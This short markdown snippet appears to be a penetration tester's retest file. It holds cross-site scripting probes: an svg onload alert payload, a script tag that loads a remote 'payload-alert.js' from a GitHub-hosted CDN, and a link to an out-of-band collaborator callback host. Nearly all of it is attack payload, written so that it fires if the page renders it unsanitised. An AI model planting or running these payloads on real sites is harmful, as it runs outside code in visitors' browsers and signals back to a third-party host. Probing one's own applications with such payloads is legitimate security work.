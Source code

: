 # retest
retest collaborator
<a href="http://egyugfsk7ew4nqywh6zgz4tcg3muawyl.c01.red">collaborator</a>
<script src="https://cdn.jsdelivr.net/gh/hotplugin0x01/payload-testing@main/payload-alert.js"></script>
XSS


<svg/onload=alert(1);>
